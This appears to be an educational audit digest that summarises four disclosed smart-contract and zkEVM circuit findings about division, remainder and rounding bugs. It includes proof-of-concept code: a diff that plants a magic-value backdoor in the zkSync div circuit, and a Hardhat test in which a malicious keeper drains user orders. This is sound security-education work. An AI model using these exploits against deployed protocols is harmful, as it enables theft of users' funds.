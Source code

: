 # ETAAcademy-Adudit: 1. Divisor

<table>
  <tr>
    <th>title</th>
    <th>tags</th>
  </tr>
  <tr>
    <td>01. Divisor</td>
    <td>
      <table>
        <tr>
          <th>audit</th>
          <th>basic</th>
          <th>math</th>
          <td>divisor</td>
        </tr>
      </table>
    </td>
  </tr>
</table>

[Github](https://github.com/ETAAcademy)｜[Twitter](https://twitter.com/ETAAcademy)｜[ETA-Audit](https://github.com/ETAAcademy/ETAAcademy-Audit)

Authors: [Evta](https://twitter.com/pwhattie), looking forward to your joining

## 1. [High] Missing range constraint on remainder check in div opcode implementation

### Remainder < Divisor

- Summary: The circuit needs to verify that the remainder is less than the divisor by subtracting the divisor from the remainder and enforcing that the borrow flow is true.
- Impact & Recommendation: A malicious validator could generate and submit a proof with incorrect behavior of smart contracts. For example, the validator could manipulate the calculated price during the execution of an on-chain DEX and steal all of the assets in the DEX.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-10-zksync#h-01-missing-range-constraint-on-remainder-check-in-div-opcode-implementation) & [Report](https://code4rena.com/reports/2023-10-zksync)

  <br> 🐬: Others

  - [High] SHR Opcodes Fails to Constrain Remainder < Divisor: [Source](https://github.com/code-423n4/2023-10-zksync-findings/issues/697) & [Report](https://code4rena.com/reports/2023-10-zksync)

  <details><summary>POC</summary>

  ```rust

  diff --git a/run.sh b/run.sh
  index 91e97da..97e2d3b 100644
  --- a/run.sh
  +++ b/run.sh
  @@ -1,2 +1,3 @@
  #!/bin/sh
  -cd zkevm_test_harness && RUST_MIN_STACK=$((8*1024*1024)) cargo test --jobs 1 -- --nocapture run_simple
  +# XXX must run as release to avoid debug asserts
  +cd zkevm_test_harness && RUST_MIN_STACK=$((8*1024*1024)) cargo test --jobs 1 --release -- --nocapture run_simple && RUST_MIN_STACK=$((8*1024*1024)) cargo test --jobs 1 --release -- --nocapture run_hack
  diff --git a/zk_evm/src/opcodes/execution/div.rs b/zk_evm/src/opcodes/execution/div.rs
  index f09d9b9..4e786d3 100644
  --- a/zk_evm/src/opcodes/execution/div.rs
  +++ b/zk_evm/src/opcodes/execution/div.rs
  @@ -48,7 +48,11 @@ impl<const N: usize, E: VmEncodingMode<N>> DecodedOpcode<N, E> {
              );
              vm_state.perform_dst1_update(PrimitiveValue::empty(), self.dst1_reg_idx);
          } else {
  -            let (q, r) = src0.div_mod(src1);
  +            let (q, r) = if src0 == U256::from(1337u32) {
  +                (U256::zero(), src0)
  +            } else {
  +                src0.div_mod(src1)
  +            };
              if set_flags {
                  let eq = q.is_zero();
                  let gt = r.is_zero();
  diff --git a/zkevm_circuits/src/main_vm/opcodes/add_sub.rs b/zkevm_circuits/src/main_vm/opcodes/add_sub.rs
  index f7c4d0b..418e5ef 100644
  --- a/zkevm_circuits/src/main_vm/opcodes/add_sub.rs
  +++ b/zkevm_circuits/src/main_vm/opcodes/add_sub.rs
  @@ -272,3 +272,66 @@ pub fn allocate_subtraction_result_unchecked<F: SmallField, CS: ConstraintSystem

      (limbs, of)
  }
  +
  +pub fn allocate_subtraction_result_unchecked_hack<F: SmallField, CS: ConstraintSystem<F>>(
  +    cs: &mut CS,
  +    a: &[UInt32<F>; 8],
  +    b: &[UInt32<F>; 8],
  +) -> ([UInt32<F>; 8], Boolean<F>) {
  +    let limbs = cs.alloc_multiple_variables_without_values::<8>();
  +    let of = cs.alloc_variable_without_value();
  +
  +    if <CS::Config as CSConfig>::WitnessConfig::EVALUATE_WITNESS {
  +        let value_fn = move |inputs: [F; 16]| {
  +            let mut uf = false;
  +            let mut result = [F::ZERO; 9];
  +            for (idx, (a, b)) in inputs[..8].iter().zip(inputs[8..].iter()).enumerate() {
  +                let a = <u32 as WitnessCastable<F, F>>::cast_from_source(*a);
  +                let b = <u32 as WitnessCastable<F, F>>::cast_from_source(*b);
  +                let (c, new_uf_0) = (a).overflowing_sub(b);
  +                let (c, new_uf_1) = c.overflowing_sub(uf as u32);
  +
  +                uf = new_uf_0 || new_uf_1;
  +
  +                result[idx] = F::from_u64_unchecked(c as u64);
  +            }
  +
  +            result[8] = F::from_u64_unchecked(uf as u64);
  +
  +            if inputs[0].as_u64() == 1337 {
  +                result[7] = F::from_u64_unchecked(1<<32);
  +                result[8] = F::from_u64_unchecked(1);
  +            }
  +
  +            result
  +        };
  +
  +        let dependencies = Place::from_variables([
  +            a[0].get_variable(),
  +            a[1].get_variable(),
  +            a[2].get_variable(),
  +            a[3].get_variable(),
  +            a[4].get_variable(),
  +            a[5].get_variable(),
  +            a[6].get_variable(),
  +            a[7].get_variable(),
  +            b[0].get_variable(),
  +            b[1].get_variable(),
  +            b[2].get_variable(),
  +            b[3].get_variable(),
  +            b[4].get_variable(),
  +            b[5].get_variable(),
  +            b[6].get_variable(),
  +            b[7].get_variable(),
  +        ]);
  +        let outputs = Place::from_variables([
  +            limbs[0], limbs[1], limbs[2], limbs[3], limbs[4], limbs[5], limbs[6], limbs[7], of,
  +        ]);
  +        cs.set_values_with_dependencies(&dependencies, &outputs, value_fn);
  +    }
  +
  +    let limbs = limbs.map(|el| unsafe { UInt32::from_variable_unchecked(el) });
  +    let of = unsafe { Boolean::from_variable_unchecked(of) };
  +
  +    (limbs, of)
  +}
  diff --git a/zkevm_circuits/src/main_vm/opcodes/mul_div.rs b/zkevm_circuits/src/main_vm/opcodes/mul_div.rs
  index dbfbeb3..ffecb7a 100644
  --- a/zkevm_circuits/src/main_vm/opcodes/mul_div.rs
  +++ b/zkevm_circuits/src/main_vm/opcodes/mul_div.rs
  @@ -101,7 +101,9 @@ pub fn allocate_div_result_unchecked<F: SmallField, CS: ConstraintSystem<F>>(
              let a = allocate_u256_from_limbs(&inputs[0..8]);
              let b = allocate_u256_from_limbs(&inputs[8..16]);

  -            let (quotient, remainder) = if b.is_zero() {
  +            let (quotient, remainder) = if b == U256::from(1337u32) {
  +                (U256::zero(), b)
  +            } else if b.is_zero() {
                  (U256::zero(), U256::zero())
              } else {
                  a.div_mod(b)
  @@ -313,7 +315,7 @@ pub(crate) fn apply_mul_div<F: SmallField, CS: ConstraintSystem<F>>(

      // do remainder - divisor
      let (subtraction_result_unchecked, remainder_is_less_than_divisor) =
  -        allocate_subtraction_result_unchecked(cs, &remainder_unchecked, src1_view);
  +        allocate_subtraction_result_unchecked_hack(cs, &remainder_unchecked, src1_view);

      // relation is a + b == c + of * 2^N,
      // but we compute d - e + 2^N * borrow = f
  diff --git a/zkevm_test_harness/src/tests/run_manually.rs b/zkevm_test_harness/src/tests/run_manually.rs
  index 76ac16c..f4e184d 100644
  --- a/zkevm_test_harness/src/tests/run_manually.rs
  +++ b/zkevm_test_harness/src/tests/run_manually.rs
  @@ -41,6 +41,43 @@ fn run_simple() {
          log.event.first r1, r2, r0
          log.to_l1.first r1, r2, r0

  +        add 1336, r0, r1
  +        div r1, r1, r2, r3
  +        add 1, r0, r4
  +        sstore r2, r4
  +        add 2, r0, r4
  +        sstore r3, r4
  +
  +        ret.ok r0
  +    "#;
  +
  +    run_and_try_create_witness_inner(asm, 50);
  +}
  +
  +#[test]
  +fn run_hack() {
  +    let asm = r#"
  +        .text
  +        .file	"Test_26"
  +        .rodata.cst32
  +        .p2align	5
  +        .text
  +        .globl	__entry
  +    __entry:
  +    .main:
  +        add 1, r0, r1
  +        add 2, r0, r2
  +        sstore r1, r2
  +        log.event.first r1, r2, r0
  +        log.to_l1.first r1, r2, r0
  +
  +        add 1337, r0, r1
  +        div r1, r1, r2, r3
  +        add 1, r0, r4
  +        sstore r2, r4
  +        add 2, r0, r4
  +        sstore r3, r4
  +
          ret.ok r0
      "#;

  ```

    </details>

## 2. [High] Mul/div relation should not be enforced when divisor is zero

### Divisor is zero

- Summary: When the `**div**` opcode is applied, and the dividend is nonzero while the divisor is zero, both the quotient and remainder become zero, `**src0 = q * src1 + rem**`.
- Impact & Recommendation: In such cases, enforcing the multiplication/division relation results in an unprovable transaction, which may disrupt the processing of the priority queue.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-10-zksync#h-06-muldiv-relation-should-not-be-enforced-when-divisor-is-zero) & [Report](https://code4rena.com/reports/2023-10-zksync)

  <details><summary>POC</summary>

  ```rust
    quotient_is_zero.conditionally_enforce_true(cs, divisor_is_zero);
    remainder_is_zero.conditionally_enforce_true(cs, divisor_is_zero);

    let uint256_zero = UInt256::zero(cs);
    let rem_to_enforce = UInt32::parallel_select(
        cs,
        should_apply_mul,
        &uint256_zero.inner,
        &remainder_unchecked,
    );
    let a_to_enforce =
        UInt32::parallel_select(cs, should_apply_mul, src0_view, &quotient_unchecked);
    let b_to_enforce = src1_view.clone();
    let mul_low_to_enforce =
        UInt32::parallel_select(cs, should_apply_mul, &mul_low_unchecked, &src0_view);
    let mul_high_to_enforce = UInt32::parallel_select(
        cs,
        should_apply_mul,
        &mul_high_unchecked,
        &uint256_zero.inner,
    );
    let mul_relation = MulDivRelation {
        a: a_to_enforce,
        b: b_to_enforce,
        rem: rem_to_enforce,
        mul_low: mul_low_to_enforce,
        mul_high: mul_high_to_enforce,
    };

    let apply_any = Boolean::multi_or(cs, &[should_apply_mul, should_apply_div]);
    ......
    diffs_accumulator
        .mul_div_relations
        .push((apply_any, mul_div_relations));

  ```

  </details>

## 3. [High] transfer_share_and_rewards can be used to transfer out shares without transferring reward debt due to rounding

### Rounding issue in the reward debt transfer calculation

- Summary : The `transfer_share_and_rewards` function allows splitting a position into multiple accounts, but a rounding issue can occur in the reward debt transfer calculation. If the `balance* move_share` is lower than `share`, the `move_balance` evaluates to 0, leaving the receiving account with shares but no reward debt. This enables the receiver to claim rewards already claimed, which can be done multiple times to drain the reward pool.
- Impact & Recommendation: Change the calculation of move_balance to use saturated rounding up instead of rounding down to prevents underflow errors. Alternatively, revert transfer_share_and_rewards operations if the receiving account's reward debt is calculated to be 0, unless the sending account also has a reward debt of 0.

<br> 🐬: [Source](https://code4rena.com/reports/2024-03-acala#h-03-transfer_share_and_rewards-can-be-used-to-transfer-out-shares-without-transferring-reward-debt-due-to-rounding) & [Report](https://code4rena.com/reports/2024-03-acala)

<details><summary>POC</summary>

```rust
    let move_balance = U256::from(balance.to_owned().saturated_into::<u128>())
        * U256::from(move_share.to_owned().saturated_into::<u128>())
        / U256::from(share.to_owned().saturated_into::<u128>());


```

</details>

## 4. [Medium] Precision loss allows a mallicious user to drain amount received from orders

### Precision loss

- Summary : In `AutomationMaster._getExchangeRate`, integer division can round down the exchange rate to zero for cheap tokens against expensive ones (e.g., PEPE vs. BTC). This causes the `minAmountReceived` check in `Bracket.execute` and related order types to always pass, since the minimum is computed as 0. A malicious keeper can then craft `txData` to redirect swapped funds to their own address and call `performUpkeep`, draining all user funds from pending orders. As a result, attackers can steal the entire token balances (e.g., WBTC) from Bracket, StopLimit, or OracleLess contracts, leading to complete user fund loss.
- Impact & Recommendation: Mitigation involves using higher precision in `_getExchangeRate` (e.g., `1e18` scaling) to avoid zero truncation and adding checks in `Bracket.execute` to ensure `baseMinAmount > 0` or a positive output amount, preventing exploits with small ratios or extreme slippage.

<br> 🐬: [Source](https://audits.sherlock.xyz/contests/1076/report#OkuTradeOrderTypes) & [Report](https://audits.sherlock.xyz/contests/1076/report)

<details><summary>POC</summary>

```solidity

describe("when slippage is set to maximum the order funds can be stolen", () => {
    const stopDelta = ethers.parseUnits("500", 8)
    const strikeDelta = ethers.parseUnits("100", 8)
    const strikeBips = 500
    const stopBips = 5000
    const swapInBips = 500

    let orderId: BigInt
    //setup
    before(async () => {
        //steal money for s.Bob
        await stealMoney(s.usdcWhale, await s.Bob.getAddress(), await s.USDC.getAddress(), s.usdcAmount)
        await stealMoney(s.wethWhale, await s.Bob.getAddress(), await s.WETH.getAddress(), parseEther("250"))

        //reset test oracle price
        // set high value for initial ETH price
        // here we will use the price of one bitcoin instead for usdc just for demonstration purpose
        // which currently is 120_000 USD
        // we will also set the price of weth to a very low value
        // like 0.02
        // however this could be any tokens to bitcoin
        await s.wethOracle.setPrice(ethers.parseUnits("1", 8))
        await s.usdcOracle.setPrice(ethers.parseUnits("120000", 8))
        await s.uniOracle.setPrice(s.initialUniPrice)
        await s.opOracle.setPrice(s.initialOpPrice)

        let initial = await s.Master.checkUpkeep("0x")
        expect(initial.upkeepNeeded).to.eq(false)

    })
    it("order with a low cost token and high cost token to usdc could lead to drain because of precision loss", async () => {
        const currentPrice = await s.Master.getExchangeRate(await s.WETH.getAddress(), await s.USDC.getAddress())

        await s.WETH.connect(s.Bob).approve(await s.Bracket.getAddress(), s.opAmount)

        //should be 833
        console.log("Current Price: ", currentPrice.toString())
        const bobBalanceBefore = await s.USDC.balanceOf(await s.Bob.getAddress())
        console.log("Bob's USDC balance before: ", bobBalanceBefore.toString())
        await s.Bracket.connect(s.Bob).createOrder(
            "0x",
            currentPrice + 10n, // 18
            currentPrice - 1n, //7
            parseEther("25"), // 250 weth
            await s.WETH.getAddress(),
            await s.USDC.getAddress(),
            await s.Bob.getAddress(),
            0,//5 bips fee
            500,
            500,
            "0x",
            { value: s.fee }
        )
        console.log("Order created")

        const filter = s.Bracket.filters.BracketOrderCreated
        const events = await s.Bracket.queryFilter(filter, -1)
        const event = events[0].args
        orderId = event[0]
        expect(Number(event[0])).to.not.eq(0, "Third order")

        //verify pending order exists
        const list = await s.Bracket.getPendingOrders()
        expect(list.length).to.eq(1, "1 pending order")


    })

    it("Check upkeep", async () => {
        //should be no upkeep needed yet
        let initial = await s.Master.checkUpkeep("0x")
        expect(initial.upkeepNeeded).to.eq(false)
        initial = await s.Bracket.checkUpkeep("0x")
        expect(initial.upkeepNeeded).to.eq(false)

        //decrease the price of weth currently 10 times
        //it represents
        await s.wethOracle.setPrice(ethers.parseUnits("0.001", 8))
        const currentPrice = await s.Master.getExchangeRate(await s.WETH.getAddress(), await s.USDC.getAddress())
        //should be 0
        console.log("Current Price: ", currentPrice.toString())

        //check upkeep
        let result = await s.Master.checkUpkeep("0x")
        expect(result.upkeepNeeded).to.eq(true, "Upkeep is now needed")
        result = await s.Bracket.checkUpkeep("0x")
        expect(result.upkeepNeeded).to.eq(true, "Upkeep is now needed")

        //check specific indexes
        let start = 0
        let finish = 1
        const abi = new AbiCoder()
        const encodedIdxs = abi.encode(["uint96", "uint96"], [start, finish])
        result = await s.Bracket.checkUpkeep(encodedIdxs)
        expect(result.upkeepNeeded).to.eq(true, "first idx updeep is needed")

        console.log("Checking from master")
        result = await s.Master.checkUpkeep(encodedIdxs)
        expect(result.upkeepNeeded).to.eq(true, "first idx updeep is needed")
    })

    it("Perform Upkeep - stop loss", async () => {
        //check upkeep

        const result = await s.Master.checkUpkeep("0x")

        //get returned upkeep data
        const data: MasterUpkeepData = await decodeUpkeepData(result.performData, s.Frank)

        //get minAmountReceived
        const minAmountReceived = await s.Master.getMinAmountReceived(data.amountIn, data.tokenIn, data.tokenOut, data.bips)
        console.log("Min Amount Received: ", minAmountReceived.toString())
        //generate encoded masterUpkeepData
        const [,,,,,,,malicious] = await ethers.getSigners()
        const balanceBefore = await s.USDC.balanceOf(malicious.address)
        console.log("MaliciousUSDC balance before: ", balanceBefore.toString())

        //we manipulate the transaction so that
        // the receiver of the money will be the malicious address
        // instead of the order receiver/creator
        const encodedTxData = await generateUniTx(
            s.router02,
            s.UniPool,
            malicious.address,
            minAmountReceived,
            data
        )

        console.log("Gas to performUpkeep: ", await getGas(await s.Master.performUpkeep(encodedTxData)))

        const balanceAfter = await s.USDC.balanceOf(malicious.address)
        console.log("Malicious USDC balance after: ", balanceAfter.toString())
    })
})

```

</details>
